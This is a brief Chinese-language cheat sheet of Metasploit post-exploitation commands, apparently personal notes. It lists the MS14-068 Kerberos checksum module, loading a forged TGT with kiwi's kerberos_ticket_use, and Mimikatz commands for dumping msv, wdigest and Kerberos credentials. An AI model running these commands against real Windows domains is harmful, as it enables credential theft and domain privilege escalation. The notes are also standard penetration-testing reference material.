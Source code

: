 ```
auxiliary/admin/kerberos/ms14_068_kerberos_checksum 14068
```
```
load kiwi
kerberos_ticket_use /tmp/0-00000000-juan@krbtgt-DEMO.LOCAL.kirbi kiwi扩展来导入TGT票证
参考：https://blog.rapid7.com/2014/12/25/12-days-of-haxmas-ms14-068-now-in-metasploit/
```

- Mimikatz

```
load mimikatz 加载
mimikatz_command -f version  版本
mimikatz_command -f fu 获取可用模块列表
msv 检索msv凭证
wdigest 读取密码
kerberos 尝试检索kerberos凭据
```

看到了再加～